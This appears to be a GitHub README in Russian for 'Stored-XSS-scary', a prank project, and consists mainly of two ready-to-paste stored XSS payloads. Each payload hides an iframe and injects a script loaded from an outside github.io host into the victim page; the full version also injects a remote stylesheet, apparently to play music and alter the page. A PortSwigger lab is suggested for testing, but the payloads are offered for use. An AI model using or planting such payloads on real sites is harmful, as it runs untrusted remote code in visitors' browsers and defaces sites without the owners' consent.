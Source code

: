 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей. Работает не во всех браузерах. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

------------------------------------------

Полная версия (музыка + CSS + доп. JS скрипты) [445 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c)};f.style.display="none"</script>

<br> Сокращенная версия (только музыка) [300 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)};f.style.display="none"</script>
